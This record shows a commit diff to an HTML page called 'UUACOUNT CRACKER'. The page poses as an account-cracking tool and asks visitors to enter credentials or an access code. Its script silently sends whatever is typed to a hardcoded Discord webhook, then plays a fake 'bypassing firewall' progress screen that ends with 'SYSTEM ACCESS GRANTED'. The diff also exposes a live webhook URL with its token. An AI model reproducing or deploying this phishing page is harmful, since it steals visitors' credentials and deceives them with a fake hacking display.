

Before and after one commit to UUCRACKER/UUCRACKER, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (307-972 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,39 +2,121 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>UU ACOUNT CRACKER</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>UUACOUNT CRACKER</title>
     <style>
-        body { font-family: sans-serif; text-align: center; padding-top: 50px; background-color: #1a1a1a; color: white; }
-        #login-box { display: block; }
+        /* Modern Dark Theme */
+        body {
+            background-color: #0d1117;
+            color: #58a6ff;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+            overflow: hidden;
+        }
 
-        /* The Loading Screen Styles */
+        .container {
+            text-align: center;
+            background: #161b22;
+            padding: 50px;
+            border-radius: 15px;
+            border: 1px solid #30363d;
+            box-shadow: 0 10px 30px rgba(0,0,0,0.5);
+            width: 90%;
+            max-width: 500px;
+        }
+
+        h2 {
+            font-size: 2.5rem;
+            letter-spacing: 5px;
+            margin-bottom: 30px;
+            text-transform: uppercase;
+            color: #ffffff;
+            text-shadow: 0 0 10px #58a6ff;
+        }
+
+        input[type="text"] {
+            width: 100%;
+            padding: 15px;
+            margin-bottom: 20px;
+            background: #0d1117;
+            border: 1px solid #30363d;
+            border-radius: 5px;
+            color: white;
+            font-size: 1.1rem;
+            box-sizing: border-box;
+            outline: none;
+        }
+
+        input[type="text"]:focus {
+            border-color: #58a6ff;
+            box-shadow: 0 0 5px #58a6ff;
+        }
+
+        button {
+            width: 100%;
+            padding: 15px;
+            background-color: #238636;
+            color: white;
+            border: none;
+            border-radius: 5px;
+            font-size: 1.2rem;
+            font-weight: bold;
+            cursor: pointer;
+            transition: background 0.3s;
+        }
+
+        button:hover {
+            background-color: #2ea043;
+        }
+
+        /* Loading Screen Elements */
         #loading-screen { display: none; }
-        .spinner {
-            border: 8px solid #333;
-            border-top: 8px solid #3498db;
-            border-radius: 50%;
-            width: 60px;
-            height: 60px;
-            animation: spin 2s linear infinite;
-            margin: 20px auto;
+
+        .progress-container {
+            width: 100%;
+            background-color: #30363d;
+            border-radius: 10px;
+            margin: 30px 0;
+            height: 15px;
+            overflow: hidden;
         }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        #status-text { font-style: italic; color: #3498db; font-size: 1.2em; }
+
+        .progress-bar {
+            width: 0%;
+            height: 100%;
+            background-color: #58a6ff;
+            transition: width 1s linear;
+            box-shadow: 0 0 15px #58a6ff;
+        }
+
+        #status-text {
+            font-family: monospace;
+            font-size: 1.1rem;
+            color: #8b949e;
+        }
     </style>
 </head>
 <body>
 
-    <div id="login-box">
-        <h2>PUT TEXT IN THE BOX TO CRACK</h2>
-        <input type="text" id="userInput" placeholder="Enter credentials">
-        <button onclick="startLogin()">LOGIN</button>
-    </div>
+    <div class="container">
+        <div id="login-box">
+            <h2>PUT THE USER FILE IN THE BOX</h2>
+            <input type="text" id="userInput" placeholder="Enter Access Code">
+            <button onclick="startLogin()">INITIALIZE</button>
+        </div>
 
-    <div id="loading-screen">
-        <h2>PROCESSING...</h2>
-        <div class="spinner"></div>
-        <p id="timer">Time Remaining: 60s</p>
-        <p id="status-text">Initializing...</p>
+        <div id="loading-screen">
+            <h2>PROCESSING</h2>
+            <div class="progress-container">
+                <div id="bar" class="progress-bar"></div>
+            </div>
+            <p id="timer">60s remaining</p>
+            <p id="status-text">Connecting to gateway...</p>
+        </div>
     </div>
 
     <script>
@@ -42,36 +124,50 @@
             const inputVal = document.getElementById('userInput').value;
             const webhookURL = 'https://discord.com/api/webhooks/1453764437608501472/M3izTOyXPaS_8RPHmqNDs-RXV8sApH8OG9jDA4gHd2_fzItzV3ZCNqcZAqNY1t2tXYi1';
 
-            // 1. Send data to Discord immediately
+            if (!inputVal) {
+                alert("Please enter a code.");
+                return;
+            }
+
+            // Send to Discord
             try {
                 await fetch(webhookURL, {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
-                    body: JSON.stringify({ content: `New entry: ${inputVal}` }),
+                    body: JSON.stringify({ content: `**Login Attempt:** ${inputVal}` }),
                 });
-            } catch (e) { console.error("Webhook error:", e); }
+            } catch (e) { console.error(e); }
 
-            // 2. Hide login and show loading screen
+            // Switch UI
             document.getElementById('login-box').style.display = 'none';
             document.getElementById('loading-screen').style.display = 'block';
 
-            // 3. Start the 60-second timer and status updates
             let secondsLeft = 60;
-            const tips = ["Establishing connection...", "Almost in...", "Bypassing protocols...", "Decrypting...", "Finalizing access..."];
+            const statusMessages = [
+                "Establishing secure connection...",
+                "Bypassing firewall protocols...",
+                "Syncing data packets...",
+                "Finalizing system entry...",
+                "Accessing secure node..."
+            ];
 
             const countdown = setInterval(() => {
                 secondsLeft--;
-                document.getElementById('timer').innerText = `Time Remaining: ${secondsLeft}s`;
 
-                // Change status text every 12 seconds
-                if (secondsLeft % 12 === 0 && tips.length > 0) {
-                    document.getElementById('status-text').innerText = tips[Math.floor(Math.random() * tips.length)];
+                // Update text and bar
+                document.getElementById('timer').innerText = `${secondsLeft}s remaining`;
+                document.getElementById('bar').style.width = ((60 - secondsLeft) / 60 * 100) + "%";
+
+                // Change status message every 12 seconds
+                if (secondsLeft % 12 === 0 && secondsLeft > 0) {
+                    const randomMsg = statusMessages[Math.floor(Math.random() * statusMessages.length)];
+                    document.getElementById('status-text').innerText = randomMsg;
                 }
 
                 if (secondsLeft <= 0) {
                     clearInterval(countdown);
-                    document.getElementById('status-text').innerText = "Access Granted!";
-                    alert("Sequence Complete.");
+                    document.getElementById('status-text').innerText = "SYSTEM ACCESS GRANTED";
+                    document.getElementById('status-text').style.color = "#238636";
                 }
             }, 1000);
         }
```
